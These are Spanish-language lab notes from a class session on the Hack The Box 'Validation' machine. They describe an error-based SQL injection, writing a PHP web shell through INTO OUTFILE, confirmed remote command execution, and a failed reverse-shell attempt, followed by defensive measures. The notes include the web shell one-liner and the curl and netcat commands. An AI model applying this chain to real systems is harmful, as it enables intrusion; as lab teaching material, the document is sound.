

---
tags:
- Auditoría web
date: '2026-09-16'
---

# SQLi Inyecciones Labs Avanzado III

2026-09-16

# Ficha de la sesión

| **Campo** | **Información** |
| --- | --- |
| Sesión | SQLi - Inyecciones - Labs - Avanzado III |
| Profesor | Carlos Gómez Pintado |
| Fecha | 16/09/2026 |
| Laboratorio | Hack The Box - Validation |
| Objetivo observado | Continuar la explotación manual de una SQL Injection hasta escritura de fichero y ejecución remota de comandos. |
| Estado final | SQLi, escritura de fichero y RCE confirmadas. Reverse shell no conseguida durante la sesión. |
| Fuente principal | Transcripción completa de la clase aportada por Chema. |

|  |
| --- |
| **Conclusión de la sesión** La práctica encadenó tres hallazgos: una SQL Injection error based en el parámetro country, escritura de un fichero PHP mediante MySQL y ejecución de comandos del sistema a través de esa web shell. La conexión de reverse shell quedó pendiente por inestabilidad del entorno o por un problema de ejecución, codificación o conectividad que no se resolvió en clase. |

## Objetivos de aprendizaje

- Localizar parámetros manipulables aunque la interfaz no permita escribir directamente en ellos.
- Distinguir evidencia de una SQLi error based frente a indicios time based o blind.
- Relacionar navegador, aplicación PHP, MySQL y sistema Linux en una cadena de explotación.
- Comprender por qué UNION SELECT e INTO OUTFILE pueden convertir una SQLi en escritura de fichero.
- Usar Burp Proxy, Repeater y Decoder para interceptar, repetir y codificar peticiones.
- Diferenciar RCE confirmada de una reverse shell todavía no conseguida.

## Índice de contenidos

**1. Contexto y punto de partida**

**2. Metodología de detección y clasificación**

**3. Arquitectura de la cadena de explotación**

**4. Explotación manual hasta escritura de fichero y RCE**

**5. Intento de reverse shell y diagnóstico**

6. Correcciones técnicas y ampliación verificada

7. Defensas, errores y buenas prácticas

8. Bloque previo de inteligencia artificial

9. Resumen, checklist, herramientas, glosario y memoria

# 1 Contexto y punto de partida

La sesión retomó la máquina Validation de Hack The Box. La aplicación web permitía introducir un nombre de usuario y elegir un país. Al enviar el formulario, la información quedaba almacenada y se mostraba en la página. El alcance visible de la aplicación era pequeño: una única funcionalidad de alta y, según el repaso de clase, sin directorios adicionales útiles descubiertos mediante enumeración previa.

## 1.1 Evidencia reutilizada de la sesión anterior

| **Evidencia** | **Interpretación** | **Estado** |
| --- | --- | --- |
| Campo username | Input textual manipulable desde la interfaz. | Validado o filtrado frente a la comilla probada; no produjo el error SQL. |
| Selector country | Valor enviado en la petición POST aunque la interfaz solo ofrece opciones. | Manipulable al interceptar el tráfico; parámetro vulnerable. |
| XSS almacenado | Se había logrado almacenar JavaScript en el nombre. | Vector confirmado, pero descartado para progresar en este CTF. |
| Enumeración web | Se indicó que dirsearch no había revelado más directorios. | No apareció otro panel, login o subida de ficheros. |
| Salida de errores | Los errores se renderizaban dentro de la plantilla web. | La respuesta útil debía observarse en la página, no solo en el paquete HTTP. |

|  |
| --- |
| **Dato observado** La dirección de la máquina verbalizada en clase fue 10.129.95.235. La IP de VPN del atacante usada al preparar la reverse shell fue 10.10.14.183. |

## 1.2 Qué se descartó y por qué

El XSS almacenado era técnicamente interesante, pero en este escenario no ofrecía una víctima diferenciada cuya cookie aportase más privilegios. También se descartó depender de credenciales web porque no se había encontrado una tabla de usuarios o un panel de acceso. El objetivo operativo pasó a ser obtener acceso al sistema directamente desde la SQLi.

# 2 Metodología de detección y clasificación

La idea central fue no limitarse a los campos que la interfaz permite editar. Un selector HTML también envía un parámetro al servidor. Aunque el usuario normal solo elige valores predefinidos, un auditor puede interceptar la petición y sustituir el valor antes de que llegue al back end.

## 2.1 Flujo de prueba

1. Identificar la petición POST y sus parámetros username y country en las herramientas de desarrollo o en Burp.
2. Probar una comilla simple en el campo username. En la sesión no rompió la consulta y la aplicación trató o codificó el carácter.
3. Interceptar la petición con Burp Proxy y modificar country, que no podía alterarse libremente desde el selector.
4. Enviar una comilla simple en country y observar la respuesta real de la aplicación.
5. Confirmar un Fatal error renderizado en la página. La comilla había roto la sentencia SQL del servidor.
6. Comparar también tamaño y tiempo de respuesta antes de clasificar otras variantes.

**Estructura de la petición manipulada No es el cuerpo literal capturado**

|  |
| --- |
| username=<valor>&country=<valor\_modificado\_con\_comilla\_simple> |

## 2.2 Por qué se clasificó como error based

La prueba vulnerable generó un error fatal visible. Esto aportó una señal directa de que la entrada se incorporaba a una sentencia SQL sin tratamiento seguro. No se trató de una deducción basada únicamente en el tiempo o en un cambio sutil del contenido: la propia aplicación mostró el fallo.

| **Tipo explicado** | **Indicador** | **Resultado en esta sesión** |
| --- | --- | --- |
| Error based | El servidor devuelve o renderiza un error provocado por la consulta alterada. | Confirmado en country mediante una comilla simple. |
| Time based | La respuesta tarda de forma deliberada y repetible por una condición o función de espera. | No confirmado. Se observaron aproximadamente 1044 ms y 1059 ms, una diferencia insuficiente. |
| Blind boolean o content based | No aparece el error, pero cambia el contenido, tamaño o comportamiento según una condición verdadera o falsa. | Explicado conceptualmente; no fue la vía utilizada. |
| Out of band | La base de datos provoca una interacción por un canal externo. | No se practicó en esta sesión. |

|  |
| --- |
| **Criterio metodológico** No basta con “probar y ver qué pasa”. Hay que definir una línea base y comparar, de forma repetible, estado HTTP, tamaño, contenido, tiempo y efectos laterales. |

## 2.3 Fases de auditoría aplicadas

| **Fase** | **Acción realizada** | **Resultado** |
| --- | --- | --- |
| Planificación | Delimitar la máquina Validation y la aplicación web como entorno autorizado. | Alcance de laboratorio controlado. |
| Recogida de información | Revisar formulario, parámetros POST, selector country y enumeración web previa. | Dos parámetros relevantes y poco alcance adicional. |
| Análisis de vulnerabilidades | Comparar el comportamiento con y sin comilla simple en cada parámetro. | country vulnerable; SQLi error based confirmada. |
| Pruebas de explotación controladas | Usar UNION SELECT e INTO OUTFILE para escribir una web shell y ejecutar ls. | Escritura de fichero y RCE confirmadas; reverse shell pendiente. |

# 3 Arquitectura de la cadena de explotación

La explicación más importante de la práctica fue la traducción entre capas. El navegador no hablaba directamente con el sistema operativo ni con MySQL. La petición recorría varios componentes, y cada paso abría o restringía posibilidades.

**Cadena lógica reconstruida a partir de la explicación de clase**

|  |
| --- |
| Navegador / formulario  ↓ HTTP POST Aplicación PHP en el servidor web  ↓ consulta SQL construida por el back end MySQL en el sistema Linux  ↓ escritura de un archivo en el web root Web shell PHP accesible por HTTP  ↓ system($\_GET['cmd']) Comando ejecutado por el sistema Linux |

## 3.1 Componentes y responsabilidades

| **Capa** | **Función** | **Punto relevante para el ataque** |
| --- | --- | --- |
| Front end | Formulario y selector visibles en el navegador. | Oculta la edición libre de country, pero no impide alterar la petición. |
| HTTP POST | Transporta username y country. | Burp permite modificar los valores antes de enviarlos. |
| PHP back end | Recibe parámetros y construye la operación de la aplicación. | La entrada llega a una consulta vulnerable y después ejecuta la web shell. |
| MySQL | Procesa la sentencia SQL. | UNION SELECT amplía la consulta e INTO OUTFILE intenta escribir en disco. |
| Linux y Apache | Alojan MySQL, PHP y el directorio web. | El fichero escrito en /var/www/html queda accesible desde la web. |

|  |
| --- |
| **Inferencia técnica** En clase se representó MySQL en el puerto interno 3306 y el acceso web en el 80. La transcripción no contiene un resultado de escaneo que confirme esos puertos para esta instancia; deben tratarse como parte del modelo explicado, no como evidencia nueva de Nmap. |

# 4 Explotación manual hasta RCE

Tras confirmar la SQLi, se valoraron dos rutas: automatizar con sqlmap o continuar manualmente. Se eligió el enfoque manual para comprender la cadena. El profesor advirtió que sqlmap puede generar mucho tráfico y numerosos registros, aunque es una herramienta válida cuando el alcance lo permite.

## 4.1 Elección del objetivo de explotación

Volcar la base de datos no parecía ofrecer una vía útil: no había un login conocido ni una tabla de credenciales identificada, y el sitio solo almacenaba nombres y países. Por ello, el objetivo cambió de extracción de datos a acceso remoto al servidor.

## 4.2 Estructura del payload de escritura

La construcción descrita en clase combinó la entrada vulnerable, una nueva consulta UNION SELECT, una cadena PHP mínima e INTO OUTFILE. La ruta elegida fue el document root habitual de Apache en Linux, /var/www/html, y el fichero se llamó shell.php.

**Plantilla conceptual El payload literal completo no quedó capturado en la transcripción**

|  |
| --- |
| <valor\_válido>' UNION SELECT '<código PHP>' INTO OUTFILE '/var/www/html/shell.php' <comentario SQL> |

**Web shell PHP explicada en clase**

|  |
| --- |
| <?php system($\_GET['cmd']); ?> |

|  |
| --- |
| **Pendiente de confirmar** La transcripción no conserva con precisión el valor inicial, el número exacto de columnas, el comentario SQL final ni el entrecomillado completo. No se reconstruye como si fuese el payload literal ejecutado. |

## 4.3 Qué hace cada fragmento

| **Fragmento** | **Función** |
| --- | --- |
| ' | Cierra el literal de la consulta original cuando el contexto utiliza comillas simples. |
| UNION SELECT | Añade el resultado de otra consulta compatible con la consulta original. |
| '<?php ... ?>' | Aporta el contenido que se pretende escribir en el archivo. |
| INTO OUTFILE | Ordena a MySQL escribir el resultado en un archivo del servidor. |
| /var/www/html/shell.php | Coloca el archivo dentro del directorio servido por Apache. |
| comentario SQL | Anula el resto de la consulta original para evitar errores de sintaxis. |

## 4.4 Verificación de la web shell

La primera comprobación devolvió un 404, lo que indicaba que el archivo no estaba disponible en ese intento. Después se repitió la inyección desde el tráfico interceptado. Finalmente, la petición con cmd=ls devolvió la salida esperada, y el profesor dio por confirmada la ejecución remota de comandos.

**Comando normalizado a partir de la explicación y los valores verbalizados**

|  |
| --- |
| curl 'http://10.129.95.235/shell.php?cmd=ls' |

| **Estado** | **Evidencia** | **Certeza** |
| --- | --- | --- |
| SQL Injection | Fatal error al alterar country con comilla simple. | Alta |
| Escritura de fichero | shell.php terminó accesible desde el web root. | Alta |
| RCE | El parámetro cmd ejecutó ls y devolvió resultado. | Alta |
| Acceso interactivo | La reverse shell no conectó al listener. | No conseguido |

# 5 Intento de reverse shell

Con RCE disponible, el siguiente objetivo fue obligar al servidor a iniciar una conexión hacia la máquina atacante. La reverse shell no es un archivo por definición: es un comando ejecutado en el objetivo que abre una conexión de retorno. Se preparó un listener con Netcat y se intentó enviar un payload Bash mediante el parámetro cmd de la web shell.

**Listener utilizado en la práctica**

|  |
| --- |
| nc -lvnp 9000 |

| **Dato** | **Valor observado** |
| --- | --- |
| IP atacante | 10.10.14.183 |
| Puerto del listener | 9000 |
| Shell considerada | /bin/bash y alternativas de shell |
| Canal de ejecución | Petición HTTP a shell.php con el comando en cmd |
| Resultado | RCE funcional, pero sin conexión de retorno. |

## 5.1 Por qué era necesario codificar

Un comando de reverse shell contiene espacios, barras, redirecciones y otros caracteres con significado especial en una URL. Si se envían sin codificar, el cliente o el servidor pueden interpretar la URL de forma distinta a la deseada. En clase se utilizó Burp Decoder para aplicar URL encoding.

| **Carácter** | **Representación URL mencionada** |
| --- | --- |
| Espacio | %20 |
| Barra / | %2F |

## 5.2 Diagnóstico realizado

- Comprobar que la máquina seguía respondiendo mediante ping.
- Confirmar que ls seguía ejecutándose a través de cmd.
- Revisar la IP 10.10.14.183 y el puerto 9000.
- Probar variaciones de shell, incluyendo bash y la posibilidad de /bin/sh.
- Considerar la lectura de /etc/passwd para conocer shells configuradas.
- Revisar el URL encoding con Burp Decoder y repetir la petición.
- Comparar la inestabilidad simultánea observada por otros alumnos y por el profesor Yuba.

|  |
| --- |
| **Resultado honesto** La sesión no demostró una reverse shell. Que ls funcionase confirma RCE, pero no prueba que el servidor pudiera abrir una conexión hacia el listener. No se obtuvo shell interactiva, usuario del sistema, flag ni privilegios root. |

## 5.3 Hipótesis compatibles con la evidencia

| **Hipótesis** | **Qué faltaría comprobar** |
| --- | --- |
| Inestabilidad de Hack The Box o VPN | Repetir la máquina con conectividad estable y confirmar rutas de red. |
| Payload mal codificado o doblemente codificado | Comparar la URL recibida por PHP y probar una codificación controlada. |
| Shell no disponible o comportamiento distinto | Verificar /bin/bash, /bin/sh y el contenido de /etc/passwd. |
| Salida bloqueada por firewall o política de red | Probar conectividad saliente hacia un puerto controlado. |
| Restricciones del usuario del servicio web | Identificar usuario efectivo y permisos del proceso PHP/Apache. |

# 6 Correcciones técnicas y ampliación verificada

## 6.1 xp cmdshell no es una función de MySQL

Durante la explicación oral se asoció xp\_cmdshell con MySQL. La documentación oficial de Microsoft lo define como un procedimiento extendido de Transact SQL para SQL Server que inicia un intérprete de comandos de Windows. No es el mecanismo utilizado por MySQL en esta práctica.

|  |
| --- |
| **Corrección técnica** La cadena real del laboratorio fue MySQL INTO OUTFILE -> fichero PHP -> system() -> comando Linux. No fue MySQL -> xp\_cmdshell. |

## 6.2 Requisitos reales de INTO OUTFILE

Según la documentación oficial de MySQL, SELECT ... INTO OUTFILE escribe el resultado en un archivo del host donde se ejecuta el servidor. Requiere el privilegio FILE, no puede sobrescribir un archivo existente y puede estar restringido por secure\_file\_priv. Además, el usuario del servicio MySQL necesita permisos de escritura en la ruta de destino.

## 6.3 Qué implica system en PHP

La función system ejecuta un programa externo y muestra su salida. Al alimentar su argumento desde $\_GET[cmd], la web shell convierte un parámetro HTTP controlado por el atacante en una orden del sistema. Ese patrón es deliberadamente inseguro y solo debe utilizarse en laboratorios autorizados.

## 6.4 UNION SELECT

Un ataque UNION combina el resultado de una consulta inyectada con el de la consulta original. Para funcionar, ambas partes deben devolver el mismo número de columnas y tipos compatibles en las posiciones relevantes. La sesión no dejó registrado el número de columnas exacto utilizado en esta máquina, por lo que no se añade una cifra no demostrada.

### Fuentes oficiales de la ampliación

- MySQL 8.4 Reference Manual - SELECT INTO: https://dev.mysql.com/doc/refman/8.4/en/select-into.html
- Microsoft Learn - xp\_cmdshell Transact SQL: https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql
- PHP Manual - system: https://www.php.net/manual/en/function.system.php
- PortSwigger Web Security Academy - SQL injection UNION attacks: https://portswigger.net/web-security/sql-injection/union-attacks

# 7 Errores observados y buenas prácticas de laboratorio

| **Problema observado** | **Efecto** | **Práctica recomendada** |
| --- | --- | --- |
| Proxy del navegador dejado activo | Pérdida aparente de acceso a Internet. | Comprobar el estado del proxy antes de diagnosticar la VPN o la máquina. |
| Máquina y peticiones inestables | Timeouts, respuestas tardías y resultados no repetibles. | Repetir con línea base, registrar tiempos y evitar conclusiones con una sola petición. |
| Diferencia entre Proxy y Repeater | Una prueba funcionaba en el flujo interceptado y otra no en Repeater. | Comparar petición completa, cookies, redirecciones, cabeceras y codificación. |
| Redirección a account.php | La salida aparecía concatenada con el contenido de la aplicación. | Seguir el flujo de redirecciones y localizar dónde se renderiza la respuesta. |
| Error 404 inicial | La web shell no estaba disponible. | No asumir escritura: verificar siempre el archivo por HTTP. |
| Reverse shell sin conexión | No se obtuvo sesión interactiva. | Separar RCE de conectividad de retorno y diagnosticar cada requisito. |

# 8 Medidas defensivas

- Usar consultas parametrizadas o prepared statements en todas las entradas, incluidos selectores y valores ocultos.
- Aplicar una allowlist del lado del servidor para country; no confiar en que el navegador limite las opciones.
- Asignar al usuario de base de datos solo los privilegios imprescindibles y evitar FILE en cuentas de la aplicación.
- Configurar secure\_file\_priv y permisos del sistema para impedir escrituras arbitrarias en el web root.
- Evitar que directorios escribibles sean ejecutables por PHP y separar datos subidos del contenido servido.
- Desactivar o restringir funciones de ejecución de comandos como system cuando la aplicación no las necesite.
- No mostrar errores de base de datos al usuario; registrar el detalle internamente y devolver mensajes genéricos.
- Monitorizar patrones de comillas, UNION, comentarios SQL, OUTFILE y peticiones anómalas sin depender solo de un WAF.
- Validar y codificar la salida para reducir XSS almacenado, vulnerabilidad también observada en el formulario.

# 9 Bloque previo de inteligencia artificial

|  |
| --- |
| **Contenido complementario** Antes del laboratorio se dedicó una parte extensa de la sesión a grafos de conocimiento, agentes y consistencia de datos. Se resume aquí sin mezclarlo con la evidencia de SQLi. |

## 9.1 Grafo de conocimiento y consistencia

El profesor explicó que un agente puede obtener respuestas distintas si el grafo contiene información duplicada o contradictoria. Propuso detectar discrepancias entre fuentes, presentarlas al usuario y mantener intervención humana antes de modificar el conocimiento persistente. Después de limpiar y correlacionar la información, una capa de caché o índice puede reducir el contexto y el coste de consulta.

## 9.2 Metáforas del jardinero y el electricista

| **Rol metafórico** | **Responsabilidad** |
| --- | --- |
| Jardinero | Detectar duplicados e inconsistencias, podar información y proponer qué conservar. |
| Human in the loop | Validar qué fuente es correcta antes de aceptar cambios con impacto persistente. |
| Electricista | Recablear relaciones entre nodos después de la validación, separando ejecución y revisión. |

## 9.3 Corrección conceptual sobre agentes y MCP

En clase se simplificó un agente como un fichero JSON o Markdown y un MCP server como la suma de skills y herramientas. Como modelo pedagógico ayuda a entender la configuración, pero técnicamente un agente es un sistema que combina modelo, instrucciones, contexto, herramientas y un bucle de control. Un servidor MCP implementa un protocolo para exponer capacidades como tools, resources o prompts; no es simplemente un paquete informal de skills y scripts.

## 9.4 Otros temas breves

- Elección de arquitectura de datos según volumen y objetivo, mencionando Pandas, Polars y PySpark.
- Importancia del usuario final al diseñar un SaaS y de resolver un problema concreto antes de priorizar complejidad técnica.
- Ruta orientativa de certificaciones y valor distinto entre aprendizaje técnico y requisitos de contratación.
- Consistencia documental en un SGSI y certificación aplicada al alcance de servicios concretos.

# 10 Comandos y construcciones vistos

| **Comando o construcción** | **Objetivo** | **Estado** |
| --- | --- | --- |
| ' | Romper el contexto de una cadena SQL y detectar tratamiento inseguro. | Probado en username y country; solo country produjo error. |
| UNION SELECT | Añadir una segunda consulta al resultado de la original. | Utilizado conceptualmente en la escritura de la web shell. |
| database() | Obtener el nombre de la base de datos. | Recordado de la sesión anterior; no fue el foco de hoy. |
| INTO OUTFILE | Escribir el resultado de MySQL en un archivo del servidor. | Usado para crear shell.php. |
| <?php system($\_GET['cmd']); ?> | Ejecutar desde PHP el comando recibido por GET. | Contenido de la web shell. |
| curl 'http://10.129.95.235/shell.php?cmd=ls' | Verificar archivo y RCE. | La ejecución de ls quedó confirmada. |
| nc -lvnp 9000 | Escuchar una conexión de reverse shell. | Listener preparado; no recibió conexión. |
| ping 10.129.95.235 | Comprobar conectividad con el objetivo. | Repetido durante la inestabilidad. |

# 11 Registro de herramientas

| **Herramienta** | **Objetivo** | **Fase** | **Uso visto** | **Nivel** |
| --- | --- | --- | --- | --- |
| Burp Suite Proxy | Interceptar y modificar el POST. | Análisis y explotación | Alteración de country. | Practicada |
| Burp Repeater | Repetir peticiones y comparar respuestas. | Análisis | Pruebas con comilla y payload. | Practicada |
| Burp Decoder | Codificar el comando para transportarlo por URL. | Explotación | Encode as URL. | Practicada |
| curl | Solicitar la web shell y enviar cmd. | Explotación | Verificación con ls. | Practicada |
| Netcat | Escuchar la conexión de retorno. | Explotación | nc -lvnp 9000. | Practicada |
| dirsearch | Enumerar directorios web. | Recogida de información | Resultado previo recordado. | Usada en auditoría |
| sqlmap | Automatizar detección y explotación SQLi. | Análisis y explotación | Comentada; no usada. | Mencionada |
| Navegador DevTools | Inspeccionar HTML y peticiones Network. | Recogida de información | Diferenciar input y select. | Practicada |

# 12 Resumen para repasar

- No todos los parámetros manipulables son campos de texto: un select también viaja en la petición.
- La comilla simple en country produjo un error visible y confirmó una SQLi error based.
- La diferencia de unos milisegundos no confirmó una SQLi time based.
- El error se mostraba en la plantilla web, así que había que observar la aplicación y no solo el paquete HTTP.
- La falta de login y credenciales redujo el valor de un simple volcado de datos.
- UNION SELECT e INTO OUTFILE permitieron escribir shell.php en /var/www/html.
- La web shell PHP tomó cmd por GET y system ejecutó órdenes en Linux.
- La ejecución de ls confirmó RCE.
- Burp Decoder permitió trabajar el URL encoding del comando de reverse shell.
- La reverse shell no conectó; el laboratorio terminó con RCE, no con acceso interactivo ni root.

## Checklist de la próxima sesión

☐ Reactivar Validation y comprobar conectividad estable.

☐ Reproducir la SQLi en country y guardar la petición completa.

☐ Documentar número de columnas, comentario SQL y payload literal exacto.

☐ Confirmar que shell.php existe y que cmd=ls sigue funcionando.

☐ Identificar usuario efectivo, shell disponible y permisos.

☐ Probar una reverse shell con codificación controlada y puerto verificado.

☐ Si conecta, estabilizar la TTY y comenzar enumeración local.

☐ Continuar con escalada de privilegios solo a partir de evidencia real.

# 13 Glosario

| **Término** | **Definición** |
| --- | --- |
| SQL Injection | Manipulación de una consulta SQL mediante entrada no tratada de forma segura. |
| Error based | SQLi cuya evidencia o extracción se apoya en errores devueltos por la base de datos o la aplicación. |
| Blind SQLi | SQLi sin salida directa, inferida mediante condiciones, contenido, tiempo u otros efectos. |
| UNION SELECT | Operación que combina resultados de consultas compatibles. |
| INTO OUTFILE | Construcción de MySQL que escribe el resultado de una consulta en un archivo del servidor. |
| Web shell | Script accesible por web que permite ejecutar acciones o comandos en el servidor. |
| RCE | Remote Code Execution; capacidad de ejecutar código o comandos en un sistema remoto. |
| Reverse shell | Shell iniciada por el objetivo que se conecta de vuelta al atacante. |
| URL encoding | Representación porcentual de bytes para transportarlos de forma válida en una URL. |
| Human in the loop | Intervención humana dentro de un flujo automatizado para revisar o autorizar decisiones. |
| MCP | Model Context Protocol; protocolo para que aplicaciones de IA accedan de forma estandarizada a capacidades externas. |

# 14 Actualización de memoria del proyecto

| **Categoría** | **Información nueva** | **Certeza** | **Acción futura** |
| --- | --- | --- | --- |
| Sesión | 16/09/2026, Carlos Gómez Pintado, SQLi - Inyecciones - Labs - Avanzado III. | Alta | Conectar con el cierre de Validation. |
| Laboratorio | Hack The Box Validation; objetivo verbalizado 10.129.95.235. | Alta | Revalidar la IP al reiniciar la instancia. |
| Vulnerabilidad | SQLi error based en el parámetro POST country. | Alta | Guardar la petición literal en la próxima sesión. |
| Cadena | SQLi -> INTO OUTFILE -> web shell PHP -> RCE. | Alta | Completar reverse shell y enumeración local. |
| Resultado | RCE confirmada con ls; reverse shell no conseguida. | Alta | No registrar acceso interactivo hasta observar conexión. |
| Corrección | xp\_cmdshell es de Microsoft SQL Server, no de MySQL. | Alta | Mantener visible la corrección en futuros apuntes. |
| IA | Metáforas jardinero/electricista y human in the loop para consistencia del grafo. | Alta | Separar metáfora de definición técnica. |
| Pendiente | Payload exacto, columnas, comentario SQL, versión MySQL y secure\_file\_priv no constan. | Alta | Confirmar con evidencia o documentación del lab. |
